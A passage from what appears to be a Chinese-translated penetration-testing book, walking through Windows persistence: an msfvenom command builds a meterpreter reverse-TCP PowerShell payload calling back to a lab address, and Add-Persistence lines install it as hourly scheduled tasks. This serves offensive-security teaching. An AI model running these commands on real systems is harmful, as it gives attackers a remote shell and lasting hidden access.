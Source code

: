 +   `Add-Persistence`需要在前两个脚本中定义的配置。这些作为环境变量传递给`Add-Persistence`，由你选择。

明白了吗？让我们深入了解。首先，我们需要一个有效载荷。幸运的是，任何旧的 PowerShell 脚本都可以很好地工作。也许你有一个喜欢的脚本，来自我们之前回顾的 PowerShell。也许你自己写过一个。现在，我们将使用超级有用的`msfvenom`生成一个示例。它的格式选项之一就是 PowerShell！

# msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.154.131 LPORT=8008 -f psh > attack.ps1

我最后得到了一个 2.5 KB 的有效载荷——还不错：

![图 17.15 – 准备我们的有效载荷并交付它](img/Figure_17.15_B17616.jpg)

图 17.15 – 准备我们的有效载荷并交付它

将那个脚本传输到你的*脚本构建器*系统上（我再次使用了`SimpleHTTPServer`；我真是太喜欢它了）。不要把它带到目标上；我们还没有我们的持久性脚本。记住，如果你只有一台 Windows 主机，那么你的脚本构建器和目标是同一台系统。

现在，我们运行这三个脚本——两个选项脚本，其输出存储为环境变量，然后是持久性脚本，它将选项传入并定义有效载荷脚本：

> $userop = New-UserPersistenceOption -ScheduledTask -Hourly
> 
> $suop = New-ElevatedPersistenceOption -ScheduledTask -Hourly
> 
> Add-Persistence -FilePath .\attack.ps1 -ElevatedPersistenceOption $suop -UserPersistenceOption $userop

查看持久性模块输出的脚本文件大小：

![图 17.16 – 有效载荷已打包并准备就绪](img/Figure_17.16_B17616.jpg)
